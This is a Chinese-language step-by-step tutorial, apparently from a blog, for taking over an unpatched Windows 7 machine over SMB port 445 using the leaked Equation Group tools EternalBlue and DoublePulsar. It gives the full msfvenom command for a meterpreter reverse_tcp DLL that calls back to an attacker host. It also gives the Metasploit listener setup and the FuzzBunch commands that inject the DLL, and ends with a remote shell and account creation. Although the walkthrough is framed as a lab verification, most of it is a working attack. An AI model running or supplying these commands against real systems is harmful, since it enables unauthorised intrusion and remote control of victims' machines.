










### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了445端口的windows 7（windows2008与之攻击方法完全相同）

以上所有IP之间均可以直接访问

### 验证步骤：
<!--more-->
* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：


0x02

执行命令：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll > s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置


打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图



#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功


这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错



0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图



0x03

输入命令
```
use Eternalblue
```
然后敲击回车，保持默认设置，除了下图俩需要选择，其他直接敲击回车使用默认配置即可



之后再敲几下回车开始攻击，得到结果如图



可以看到最后"Eternalblue Succeeded"显示成功，当然，不是所有攻击都会成功，需要一定运气的

0x04

输入命令
```
use Doublepulsar
```

然后会要求输入一些参数，比如系统位数、后门操作、后门路径等，除了下图中红框标出的部分，其他保持默认即可



接着输入后门路径，即我们之前用kali生成的s.dll，如下图



之后不断敲击回车开始在目标机执行s.dll，成功后如图



这时打开xshell可以看到已经成功反弹shell



然后就可以比如说输入shell模拟终端执行命令，创建账户，等等，总之服务器权限已经拿到了

